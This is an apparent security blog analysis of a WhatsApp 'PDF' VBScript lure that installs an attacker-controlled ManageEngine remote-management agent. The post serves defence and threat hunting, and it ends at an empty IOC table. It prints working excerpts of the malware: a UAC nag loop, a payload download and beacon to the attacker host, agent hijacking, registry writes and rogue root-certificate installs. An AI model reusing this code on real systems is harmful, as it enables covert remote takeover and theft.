








---

title: "2026 WhatsApp PDF Malware Investigation"
date: 2026-11-25
permalink: /2026/11/25/whatsapppdfmalware/
categories: [Blue Team, Analysis]
tags: [Malware, RMM, WhatsApp]
description: "Analysis of a WhatsApp 'PDF' VBScript lure that silently installs an attacker-controlled ManageEngine Endpoint Central agent for full remote access."
pond: true
featured: false

---

# 2026 WhatsApp PDF Malware Investigation

_How a 13 KB "PDF" hands your laptop to a remote attacker._

{: loading="lazy" decoding="async" width="326" height="162" }
_The lure as received on WhatsApp. "Tolong buka komputer dan semak ya" means "Please open it on a computer and check". The scammer needs you on a Windows PC, because the "PDF" is really a script that can't run on a phone._

**Date:** 2026-11-25

**Lure:** `PDF_XXXXXX_20261112145858.zip` (sent over WhatsApp)

**Payload host:** `gooddowning[.]com`

**C2:** `143.92.40[.]187:8383` / `143.92.40[.]224`

**Threat Type:** Trojan dropper that leads to remote access through an abused legitimate RMM tool (ManageEngine Endpoint Central)

**Severity:** HIGH (live C2, real victims enrolled, unknown to public threat intel before this analysis)

**By:** 171k

> **Disclaimer:** This post is for educational purposes only. I've defanged all domains, urls and ips so do not visit them and do not download or running anything described here. All investigations ran inside isolated environment. I am not responsible for any misuse of information or any damage caused by acting on it

Click [here](#my-advice-to-dear-malaysian) to skip to the summary and my advice :3

---

## Executive Summary

This is an **active malware campaign** spreading through WhatsApp. The victim receives a file that looks like a PDF document, named something like `PDF_ATKLHR_20261112145858.zip`. Inside the ZIP there is **no PDF at all**. It holds a Windows **VBScript** (`.vbs`) file.

When the victim double-clicks it, the script nags them with Windows admin prompts until they give in, then silently installs **ManageEngine Endpoint Central**, a real, legitimate IT-management tool made by Zoho. The catch: the agent is registered to **the attacker's own Endpoint Central server**. From that moment the attacker can remote-desktop into the PC, browse and copy files, run commands and install whatever they want, all through signed, trusted software.

The attacker **did not write a single line of "real" malware** for the main payload. The only malicious code is a 419-line, unobfuscated VBScript. Everything else is genuine Zoho software, which is exactly why antivirus often stays quiet.

At the time of analysis (2026-11-24), **none** of the samples, the stage-2 package or the C2 were known to VirusTotal or abuse.ch. The C2 was live, and sandbox evidence suggests it has enrolled **around 3,300 machines** since 22 October 2026.

> The script itself never touches WhatsApp. WhatsApp takeover happens **after** the attacker has remote control of your PC. More on that in [section vii](#vii-from-remote-access-to-whatsapp-takeover).

All domains and URLs are **defanged** (`hxxps`, `[.]`). Please don't visit them.

---

## i. The Lure

### What the victim receives

I was given two samples:

| **File** | **Size** | **Contains** | **ZIP comment** |
|---|---|---|---|
| `PDF_ATKLHR_20261112145858.zip` | 4,219 B | `PDF_ATKLHR_20261112145858.vbs` (13,297 B) | `ATKLHR-3956759966` |
| `PDF_AVKYSJ_20261112145858.zip` | 4,220 B | `PDF_AVKYSJ_20261112145858.vbs` (13,297 B) | `AVKYSJ-3256310888` |

A few things jump out straight away:

* The names start with `PDF_`, but the files are an ordinary ZIP and a plain-text VBScript. Windows hides known extensions by default, so a lot of people will just see "PDF_ATKLHR_..." and click.
* The ZIP's internal timestamp is `2026-11-12 14:58:58`, which is **exactly** the `20261112145858` in the filename. These were spat out by a **builder**, not made by hand.
* The 6-letter random ID (`ATKLHR`, `AVKYSJ`) plus the number in the ZIP comment looks like a **per-victim or per-send tracking ID**.

### Hash busting

The two VBS files are **functionally identical**. `diff` shows the only difference is line 1:

    PDF_ATKLHR...vbs  line 1:  '7a3e22b1
    PDF_AVKYSJ...vbs  line 1:  'b0d19cd4

That is a random comment. It does nothing except give every copy a **unique hash**, so blocking one SHA-256 does not block the next victim's file. The fuzzy hashes (ssdeep) are almost character-for-character the same, which confirms they are the same thing.

> Cheap trick, but effective against anything that relies on hash blocklists!

---

## ii. Inside the VBScript

{: loading="lazy" decoding="async" width="548" height="93" }
_The top of the script: the hash-busting comment on line 1 and the build tag on line 3._

The script is 419 lines of **completely unobfuscated** VBScript. It starts with `On Error Resume Next`, so any error is silently swallowed and the victim never sees a thing. There is even a build tag left in the comments (line 3 in the screenshot above): `z11b-0253`, labelled "old-style". That label implies there are newer versions already.

### Attack Flow

    WhatsApp message ("PDF document")
    └─ PDF_XXXXXX_<timestamp>.zip
       └─ PDF_XXXXXX_<timestamp>.vbs        (victim double-clicks, runs in wscript.exe)
          ├─ copy itself to %TEMP%\zoho\z_l<ms>.vbs
          ├─ UAC "runas" prompt, repeated up to 100x       [beacon: z11_uac]
          └─ elevated copy (admin)
             ├─ agent already running? beacon and exit    [z11_agent_online]
             ├─ download hxxps://gooddowning[.]com/187f.zip  [z11_dl_ok]
             ├─ extract MSI + config + certificates       [z11_extract_ok]
             ├─ kill / remove any existing agent          [z11_preclean]
             ├─ msiexec /qn  (silent install)             [z11_rc_<code>]
             ├─ write attacker server + keys to registry
             ├─ certutil -addstore -f Root  (2 rogue root CAs)
             ├─ start "ManageEngine UEMS - Agent"         [z11_configured]
             └─ service Running, write done.flag          [z11_done]

    Result: the PC now reports to the attacker's Endpoint Central server,
            which has full remote control of it.

### Step 1: Consent fatigue, not a UAC bypass

The script copies itself to `%TEMP%\zoho\` (the folder name imitates **Zoho**, the company behind ManageEngine) under a random name, then asks Windows to run that copy as admin:

    token = "l" & CLng(Timer * 1000)
    zPath = dir & "\z_" & token & ".vbs"
    fso.CopyFile selfPath, zPath, True
    ...
    baseW = CountProc("wscript.exe")
    tries = 0
    Do
      Beacon "z11_uac"
      tries = tries + 1
      app.ShellExecute "wscript.exe", """" & zPath & """ /elev " & token, "", "runas", 0
      WScript.Sleep 600
      If CountProc("wscript.exe") <= baseW Then
        Beacon "z11_uac_no_" & tries
        If tries >= 100 Then Exit Do
      Else
        ...wait up to 120 s for the <token>.ok marker...
        Exit Do
      End If
    Loop

What this does, line by line:

* `"runas"` is the verb that pops the **Windows UAC "Do you want to allow this app to make changes to your device?"** prompt. The last `0` hides the new window, so nothing visible appears after you click Yes.
* It counts running `wscript.exe` processes before and after. If no new one shows up, it assumes you clicked **No**, tells the attacker (`z11_uac_no_1`, `z11_uac_no_2`, ...) and **asks again. Up to 100 times.**
* Once you click Yes, the elevated copy starts with `/elev <token>` and drops a `<token>.ok` file so the original knows it worked and can quietly exit.

> There is no exploit here. The attacker is simply betting that you will get annoyed and click **Yes** to make it stop. Please don't!

{: loading="lazy" decoding="async" width="537" height="420" }
_The UAC nag loop as it appears in the script._

### Step 2: Download stage 2

Once elevated, it first checks whether the job is already done:

    st = ServiceState("ManageEngine UEMS - Agent")
    If st = "Running" Then
      Beacon "z11_agent_online"
      Exit Sub
    End If

If not, it downloads stage 2:

{: loading="lazy" decoding="async" width="593" height="247" }
_The download loop: 3 tries, and the file must be over 30 MB._

In text form (URL defanged):

    For i = 1 To 3
      If HttpGetToFile("hxxps://gooddowning[.]com/187f.zip?k=" & CLng(Timer) & "&a=" & i, pkg) Then
        If FileSize(pkg) > 30000000 Then
          ok = True
          Exit For
        End If
      End If
      WScript.Sleep 1500
    Next

and inside `HttpGetToFile`:

    Set x = CreateObject("MSXML2.ServerXMLHTTP.6.0")
    x.setOption 2, 13056      ' ignore ALL SSL certificate errors
    x.Open "GET", url, False
    x.Send
    ...
    Set st = CreateObject("ADODB.Stream")
    st.Write x.responseBody
    st.SaveToFile path, 2

* `setOption 2, 13056` tells Windows to **ignore every SSL certificate error**, so the download works even through broken or intercepted HTTPS.
* `?k=<timer>` changes every run to dodge caching.
* It only accepts the file if it is **bigger than 30 MB** (the size of the real agent MSI), retrying 3 times. A small error page or block page is rejected.
* It then extracts the ZIP with the Windows Explorer COM object, with every dialog switched off:

        sa.NameSpace(dst).CopyHere items, 4 + 16 + 512
        ' 4 = no progress window, 16 = "Yes to All", 512 = no "create folder?" prompt

Next it reads the attacker's server details out of `DCAgentServerInfo.json`. No JSON parser, just a regex per key:

    re.Pattern = """" & key & """\s*:\s*""([^""]*)"""
    ip    = Jv(jt, "SERVERIPADDRESS")
    port  = Jv(jt, "SERVERPORT")
    v1    = Jv(jt, "VALUE1")   ' auth token
    v2    = Jv(jt, "VALUE2")   ' remote office key

> The important point: the C2 address is **not in the VBS at all**. It lives in the downloaded JSON, so the operator can point the same script at a new server just by swapping the ZIP.

### Step 3: Hijack existing agents

This part is nasty. Before installing, the script checks whether a ManageEngine agent **already exists**:

    If st <> "absent" Then
      KillProc "dcagentservice.exe"
      KillProc "dcondemand.exe"
      KillProc "dcinventory.exe"
      KillProc "dcagenttrayicon.exe"
      KillProc "NativeUIHandler.exe"
      KillProc "dcconfig.exe"
      secFile = PFx86 & "\ManageEngine\UEMS_Agent\data\agent-security-setting.json"
      If fso.FileExists(secFile) Then fso.MoveFile secFile, secFile & ".bak"
      sh.Run "sc.exe delete ""ManageEngine UEMS - Agent""", 0, True
      Beacon "z11_preclean"
    End If

It force-kills every agent process (`taskkill /F`), moves the agent's security settings out of the way and deletes the service.

> So if your **company** legitimately uses ManageEngine, this script will happily rip out your IT department's agent and replace it with one that reports to the attacker!

### Step 4: Silent install + rogue root certificates

    msiexec /i "%TEMP%\zoho\UEMSAgent.msi" TRANSFORMS="%TEMP%\zoho\UEMSAgent.mst"
            ENABLESILENT=yes INSTALLSOURCE=Manual
            SERVER_ROOT_CRT="...\DMRootCA-Server.crt" DS_ROOT_CRT="...\DMRootCA.crt"
            SERVERIPADDRESS="<attacker>" ... /qn /norestart REBOOT=ReallySuppress

`/qn` means **no UI at all**, `REBOOT=ReallySuppress` means no restart prompt and the whole thing gets up to 10 minutes. If it fails, a second install without the transform is tried (`agent2.log`).

Then `ConfigureAgent` writes the attacker's server address, auth token and keys straight into the agent's registry:

    sh.RegWrite regBase & "ServerInfo\DCServerName", svr, "REG_SZ"
    sh.RegWrite regBase & "ServerInfo\DCServerIPAddress", ip, "REG_SZ"
    sh.RegWrite regBase & "ServerInfo\DCServerSecurePort", sport, "REG_SZ"
    sh.RegWrite regBase & "ProvKey", v1, "REG_SZ"
    sh.RegWrite regBase & "Authtoken", v1, "REG_SZ"
    sh.RegWrite regBase & "RemoteOfficeAuthKey", v2, "REG_SZ"
    sh.RegWrite regBase & "EnableCertFlag", 1, "REG_DWORD"
    ' regBase = HKLM\SOFTWARE\(WOW6432Node\)AdventNet\DesktopCentral\DCAgent\

installs the certificates:

    sh.Run "certutil -addstore -f Root """ & runDir & "\DMRootCA.crt""", 0, True
    sh.Run "certutil -addstore -f Root """ & runDir & "\DMRootCA-Server.crt""", 0, True

and finally registers and starts the agent:

    sh.Run """" & regExe & """ -i dc", 0, False          ' dcagentregister.exe
    sh.Run "sc.exe start ""ManageEngine UEMS - Agent""", 0, True

Notice the `0` in every `sh.Run`: all of these run in a **hidden window**. The victim sees nothing.

Those two certificates go into the machine's **Trusted Root Certification Authorities** store. That lets the agent trust the attacker's server, but it also means the attacker can, in principle, **issue HTTPS certificates your PC will fully trust**.

Persistence is free: the agent runs as a Windows service, auto-start, as **SYSTEM**.

### Step 5: A live progress dashboard for the scammer

Every single step phones home:

    Sub Beacon(step)
      cn = sh.ExpandEnvironmentStrings("%COMPUTERNAME%")
      u = "hxxps://bbb.gooddowning[.]com/beacon.php?u=vh_" & cn & "&s=" & step & "&m=vh_" & cn & "&os=win"
      Set x = CreateObject("MSXML2.ServerXMLHTTP.6.0")
      x.Open "GET", u, False
      x.Send
    End Sub

So the attacker also learns your **computer name** from the very first prompt.

| **Beacon step** | **Meaning** |
|---|---|
| `z11_uac` / `z11_uac_no_<n>` | UAC prompt shown / victim clicked No (n-th time) |
| `z11_agent_online` | Agent already installed and running |
| `z11_dl_ok` / `z11_dl_fail` | Stage 2 downloaded / failed |
| `z11_extract_ok` / `z11_extract_fail` | Package extracted / failed |
| `z11_preclean` | Existing agent removed |
| `z11_rc_<code>` / `z11_rc2_<code>` | msiexec return code (first / fallback install) |
| `z11_configured` | Registry + certificates written, service started |
| `z11_done` | Service confirmed running. Victim is owned. |

The operator literally sees which victim is stuck at which step, and knows when to "follow up" with them on WhatsApp.

> Small funny detail: the author forgot the closing `%` here, in a variable they never ended up using anyway:
>
>     uid = sh.ExpandEnvironmentStrings("%COMPUTERNAME") & "_" & sh.ExpandEnvironmentStrings("%USERNAME%")

It also leaves a full diary of what it did in `%TEMP%\zoho\install.log` (plus `agent.log` from msiexec), which is very handy if you're cleaning up an infected PC.

---

## iii. Stage 2: Legit, Signed, Zoho Software

{: loading="lazy" decoding="async" width="705" height="482" }
_Contents of `187f.zip` after extraction (on the analysis VM, never run)._

### Anti-analysis: Cloudflare says "Windows only"

`gooddowning[.]com` sits behind **Cloudflare**. Hitting it with plain `curl` returns `error code: 1010` (Browser Integrity Check). Pretending to be the script, using a Windows WinHttp User-Agent, gets an **HTTP 200** and a 32,868,674-byte ZIP.

    curl -skI -A "Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)" \
         "hxxps://gooddowning[.]com/187f.zip?k=1&a=1"

### What's inside `187f.zip`

| **File** | **What it is** |
|---|---|
| `UEMSAgent.msi` | **Genuine** ManageEngine agent v11.3.2400.33.W, Authenticode-signed by **ZOHO Corporation Private Limited** (GlobalSign) |
| `UEMSAgent.mst` | Stock Zoho transform, full of Zoho's internal dummy values (`192.168.x.x`, `dummydomain.csez.zohocorpin.com`) |
| `DCAgentServerInfo.json` | **The attacker's server config.** This is the real C2. |
| `DMRootCA.crt`, `DMRootCA-Server.crt` | Root CAs generated by the attacker's Endpoint Central install |
| `setup.bat`, `README.html` | Stock ManageEngine installer files (not even used by the VBS) |

> The leftover `setup.bat` and `README.html` give it away: this is just the standard **"download agent installer"** package, exported straight from the attacker's own Endpoint Central console and wrapped in a VBScript. No custom malware needed.

There is also an "old-style" `187.zip` on the same host. Different ZIP, **byte-identical contents**, just repacked.

### The attacker's server config

{: loading="lazy" decoding="async" width="543" height="217" }
_`DCAgentServerInfo.json`: the attacker's server, hiding in plain sight._

| **Field** | **Value** |
|---|---|
| `SERVERIPADDRESS` | **`143.92.40[.]187`** |
| `SERVERSECUREPORT` | **`8383`** (HTTPS) |
| `SERVERNAME` | **`WIN-AO1OV9H51J2`** (default random hostname of a freshly built Windows Server VPS) |
| `productcode` | `DCEE` (self-hosted Endpoint Central Enterprise) |
| `CUSTOMERNAME` / `MSPNAME` | `DC_CUSTOMER` / `DC_MSP` (didn't even change the defaults) |
| `AGENTPOLLINGINTERVAL` | `2` minutes |
| `PERFORMASSETSCAN` | `yes` (full hardware/software inventory of every victim) |
| `ServerHashTime` | `1792675682`, which is **2026-10-22 13:28:02 UTC** (C2 install date) |

### The "Zoho" certificates are not Zoho's

| **Cert** | **Subject** | **Valid** | **SHA-256** |
|---|---|---|---|
| `DMRootCA-Server.crt` | `CN=ManageEngineCA, O=Zoho Corporation` (self-signed) | 2026-10-22 to **2126**-10-22 | `5590208C…AC6E6E` |
| `DMRootCA.crt` | `CN=ManageEngineCA-DS-CA` (self-signed) | 2026-10-22 to **2126**-10-22 | `0F86DC8F…9BDBDF` |
| Live TLS on `:8383` | `CN=ManageEngine`, issued by the CA above | 2026-10-22 to 2027-10-22 | `BFE17D9C…22E46B` |

Every Endpoint Central install generates its own CA with these default names, valid for 100 years. They look official, but these exact fingerprints are **unique to this attacker server**, which makes them great hunting IOCs.

---

## iv. Infrastructure & Domain Intelligence

### C2 server: `143.92.40[.]187`

{: loading="lazy" decoding="async" width="1917" height="812" }
_The attacker's Endpoint Central login page, wide open on port 8383._

| **Property** | **Value** |
|---|---|
| **Location** | Tung Chung, Hong Kong |
| **ASN** | AS152194 CTG Server Limited (VPS) |
| **Reputation** | `/24` is on **Spamhaus DROP** |
| **Open ports** | 80, 1433 (**MS SQL Server 2008 R2**), 5985 (WinRM), 8020, 8027, 8383, 8443, 8444 |
| **Web** | **Endpoint Central web console login exposed to the internet** on `:8383/client` |
| **API** | `/api/1.4/desktop/serverproperties` returns `"Invalid or expired token"` (code 10002), confirms the product |
| **Status** | **Live** on 2026-11-24 |

> Look at the footer of the login page: **`support@manageengine.cn`**, a **+86** support number and a **Chinese flag**. The console is set to the **China region**, the localized edition of Endpoint Central. It's not proof of who is behind it, but it fits nicely with the BaoTa panel, the HK/CN registrant and the Chinese developer comments below.

A second IP, **`143.92.40[.]224`**, serves the **identical TLS certificate** and the same API. Same server, two addresses.

### Payload domain: `gooddowning[.]com`

| **Property** | **Value** |
|---|---|
| **Registered** | **2026-11-06** (six days before the lures were built) |
| **Registrar** | Gname.com Pte. Ltd. (Singapore) |
| **Registrant country** | HK / CN (VirusTotal) |
| **DNS** | Cloudflare (`june` / `sevki`), origin hidden |
| **Landing page** | **"恭喜，站点创建成功！"** ("Congratulations, site created successfully!") |
| **Subdomains** | `aaa`, `bbb`, `ccc`, `kkk`, `ppp`, `qqq`, `xxx`, `yyy`, `www` |

{: loading="lazy" decoding="async" width="1917" height="867" }
_`gooddowning[.]com` landing page: the untouched BaoTa default._

That landing page is the default page of **BaoTa (宝塔) / aaPanel**, a Chinese web hosting control panel. They never bothered to replace it.

### Why "187f.zip"?

I tried `/186f.zip` and `/188f.zip`: both 404. **187** is the last octet of the C2 IP (`143.92.40[.]187`). So the package names likely map to C2 servers, and other servers probably get their own `<octet>f.zip`.

### Timeline

| **Date (UTC)** | **Event** |
|---|---|
| 2026-10-22 13:28 | Endpoint Central installed on the C2 (CA creation, ServerHashTime) |
| 2026-11-06 02:06 | `gooddowning[.]com` registered |
| 2026-11-12 06:52 | `187f.zip` uploaded |
| 2026-11-12 14:58:58 | Lures `PDF_ATKLHR_…` / `PDF_AVKYSJ_…` built |
| 2026-11-24 | C2 and payload host still live |

---

## v. Threat Intel Pivots: It's Bigger Than Two Files

### Nobody had seen it

| **Item** | **VirusTotal** | **MalwareBazaar / URLhaus / ThreatFox** |
|---|---|---|
| Both VBS, both ZIPs, `187f.zip`, `187.zip`, config JSON | **Not found** | Not found |
| `UEMSAgent.msi` (legit) | 4/57, ESET calls it a "potentially unsafe" remote admin tool | Not found |
| `gooddowning[.]com` | 3/94 | No results |
| `143.92.40[.]187` | 1/94 | No results |

### Sibling lures and campaign waves

Pivoting on the domain, the C2 IPs and the signed MSI turned up:

* **`PDF_DJPNVM_20261112145858.vbs`**: same batch timestamp as my samples, same size. A third victim from the same build run.
* `PDF_HKQ4X7_20261109….iso` and two `PDF_HKQ4X7_….vbs` from 9 to 10 November.
* **20 earlier lures (20 Sep to 14 Oct 2026)** with the same `PDF_XXXXXX_YYYYMMDDHHMMSS` naming, delivered as **.VHDX / .ISO** disk images. The operator switched from disk images to ZIP+VBS in November.
* Other lure themes using the same signed MSI since June 2026: "Bank Statement", "Statement of Account", "Debt Note", "High salary recruitment" and, in Malay, **"Dokumen Perjanjian Sewa"** (rental agreement document).

> That last one tells you Malaysians are very much on the target list.

### 40+ DLL loaders on the same infrastructure

VirusTotal lists **55 files** talking to `gooddowning[.]com`, most of them small 64-bit DLLs pretending to be `libcurl.dll` from **WinGUp** (the Notepad++ updater), `krita.dll`, `IS.dll` or `FAULTREP.DLL`, built for **DLL sideloading**. Sandbox behaviour: msiexec quiet install + new root CA. **Same end goal, different delivery.**

### Sandbox confirmation and the victim count

The sibling `PDF_DJPNVM` was detonated in 5 public sandboxes. The behaviour matches the static analysis exactly, including the agent enrolling with the C2:

    POST hxxps://143.92.40[.]187:8383/ClientCSRSigningServlet
    GET  /servlets/agentAuthPropsRequest?ComputerName=…&MSPName=DC_MSP&CustomerId=1
    POST /patchscan?actionToCall=patch-bios-scan
    GET  /invstatusupdate?…

The C2 handed the sandbox **`ResourceID=3323`**. Endpoint Central gives each enrolled machine an incrementing ID, so that's roughly **~3,300 enrolments since 22 October** (sandbox runs included, so treat it as an upper-ish estimate).

On top of that, someone uploaded actual **Endpoint Central agent logs** pointing at this C2 to VirusTotal on 12 November. That is a **real infected machine**.

### "客服ID": the customer-service ID

Related droppers from the MalwareBazaar cluster **`DCAgentRMM`** (`lwjw.vbs`, `spxploy.vbs`) still carry **Simplified-Chinese developer comments**:

    模板变量：S = 客服ID
    (template variable: S = customer-service ID)

"客服" (customer service) is what scam call-centre operators are commonly called. This points to a **builder panel** where each scam operator gets their own personalised build, which fits the per-victim IDs and the `vh_` prefix in my samples.

---

## vi. Mistakes & OPSEC Failures

| **#** | **Mistake** | **Why it matters** |
|---|---|---|
| 1 | Zero obfuscation in the VBS | Every URL, registry key and step name readable with `grep` |
| 2 | Build tag and "old-style" comment left in | Version tracking, hints at newer variants |
| 3 | Endpoint Central console exposed publicly | Product and version confirmed remotely |
| 4 | Default `DC_CUSTOMER` / `DC_MSP` / `WIN-AO1OV9H51J2` | Easy, stable fingerprints for hunting |
| 5 | Same TLS cert on `.187` and `.224` | Links both IPs to one server instantly |
| 6 | Package name `187f.zip` = C2 IP octet | Leaks the naming scheme |
| 7 | BaoTa default landing page | Toolchain fingerprint |
| 8 | C2 console left on China-region defaults | Language/region hint visible to anyone |
| 9 | Chinese dev comments in related droppers | Language/attribution hint |
| 10 | MS SQL 2008 R2 and WinRM open on the C2 | The C2 itself is badly exposed |
| 11 | Domain registered 6 days before use | Fresh-domain detection would catch it |

---

## vii. From Remote Access to WhatsApp Takeover

The VBS does not steal WhatsApp by itself. The account takeover happens **after** the attacker is inside:

1. **Open your already-logged-in WhatsApp Desktop / Web** through remote desktop and read everything.
2. **Copy the session** files from your user profile to their own machine.
3. **Grab the 6-digit registration code** when they register your number on their phone, either from SMS mirrored to your PC (Phone Link, Google Messages for Web) or by asking your friends in your hijacked chat: *"Sorry, I accidentally sent you a code, can you forward it?"*
4. **Lock you out** by setting their own two-step verification PIN.
5. **Spread and cash out**: send the same `PDF_*.zip` to your contacts and groups, ask for "urgent loans", push fake investment or parcel scams.

What else they go for on the PC:

* **Online banking** sessions and **OTP / TAC** codes (SMS mirroring, email)
* Browser-saved passwords, cookies, logged-in Gmail (used to reset everything else)
* **E-wallets and crypto wallets**, seed phrases in notes or screenshots
* **IC / passport scans**, bank statements, payslips (identity fraud)
* Work VPN, RDP and email if it's an office PC

---

## viii. Indicators of Compromise (IOCs)

### Network IOCs

| **Type** | **Value** | **Purpose** |
|---|---|---|
| **IPv4** | `143.92.40[.]187` (8383, 8020, 8027, 8443) | Attacker Endpoint Central C2 |
| **IPv4** | `143.92.40[.]224` | Same C2 (identical cert) |
| **CIDR** | `143.92.40[.]0/24` (AS152194) | Spamhaus DROP-listed range |
| **Domain** | `gooddowning[.]com` | Stage-2 host |
| **Domain** | `bbb.gooddowning[.]com` | Beacon |
| **Domains** | `aaa.` `ccc.` `kkk.` `ppp.` `qqq.` `xxx.` `yyy.` `www.gooddowning[.]com` | Campaign subdomains |
| **URL** | `hxxps://gooddowning[.]com/187f.zip?k=*&a=*` | Stage-2 ZIP |
| **URL** | `hxxps://gooddowning[.]com/187.zip` | Old-style stage-2 |
| **URL** | `hxxps://bbb.gooddowning[.]com/beacon.php?u=vh_*` | Progress beacon |
| **TLS SHA-256** | `bfe17d9c6a71939fd15caea161ad43947cce639037e120e59c28f3d2e222e46b` | C2 HTTPS cert |
| **Hostname** | `WIN-AO1OV9H51J2` | C2 server name (shows in agent registry) |

### File IOCs (SHA-256)

| **File** | **SHA-256** |
|---|---|
| `PDF_ATKLHR_20261112145858.zip` | `e1638416c33a00f0a0870996ac03dde9acd109102cfecdfb02653b7116e749ef` |
| `PDF_AVKYSJ_20261112145858.zip` | `0f7c9c80cade468f1f6c6d063cba61f76678ca6e4b8afc752b8e43bdff42635e` |
| `PDF_ATKLHR_20261112145858.vbs` | `098235da1c52adddfa082f62767de1ff92325dd12d9a7c9fa3f6dbc293b9adaf` |
| `PDF_AVKYSJ_20261112145858.vbs` | `b75c2c18a3866686a3752963d83f5ba1d85281b00d5a8dd336c931d50dc6173a` |
| `PDF_DJPNVM_20261112145858.vbs` | `b978d1f4775b5c003d926aab8fca2f973740d197aedcb99ae55e9fc7e96e61a3` |
| `187f.zip` | `3a1f030342d86371ddc4bfe6ff7477d8b8c8005190cfe49dd64354f0d6f8a00c` |
| `187.zip` | `a66cf0ce0395a2d1ce1c8b743041466f419092c03f447bedbce14c8b2369b079` |
| `DCAgentServerInfo.json` | `38fcbc21ec2690bfe45aee6b7184fc149b97b03b2449de144f28217acd9c98df` |
| `UEMSAgent.msi` (legit, block only in context) | `92f68fc7f6d0f544a750bf67b4903d1a4062d1372b7f98ab5c2f698eb61359bb` |

### Rogue Root CAs (hunt in `Cert:\LocalMachine\Root`)

| **Subject** | **SHA-256** |
|---|---|
| `ManageEngineCA` (serial `46151EB052AB2724`) | `5590208ce8f9311c60fa9600d23bccb48a6a513538bb501a4d5bdb49bdac6e6e` |
| `ManageEngineCA-DS-CA` (serial `40E93057CA8C9B43`) | `0f86dc8f2ae3bf911b0bff3e7016bfec0099fa44493e18f18852df9ac09bdbdf` |

### Host & Behavioural IOCs

| **Type** | **Detail** |
|---|---|
